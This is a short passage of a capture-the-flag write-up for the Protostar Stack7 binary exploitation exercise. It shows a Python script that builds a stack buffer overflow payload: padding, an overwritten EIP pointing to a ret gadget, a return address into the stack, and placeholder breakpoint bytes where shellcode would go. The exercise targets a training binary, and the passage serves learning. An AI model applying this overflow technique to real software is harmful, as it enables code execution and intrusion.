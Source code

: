 ![Stack7 objdump getpath](/assets/img/protostar/stack7-analysis-getpath.png)

so it was `0x08048544`

let,s prepare our exploit and update fuzz script on : `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\x44\x85\x04\x08" # 0x08048544 point to opcode `c3` which represent `ret` instruction in x86/x86_64 arch
ret="\xd0\xf7\xff\xbf" # 0xbffff7d0 return to our shellcode in stack and execute it
code_to_execute="\xcc"*4 
print(fuzz+ebp+eip+ret+code_to_execute)
```
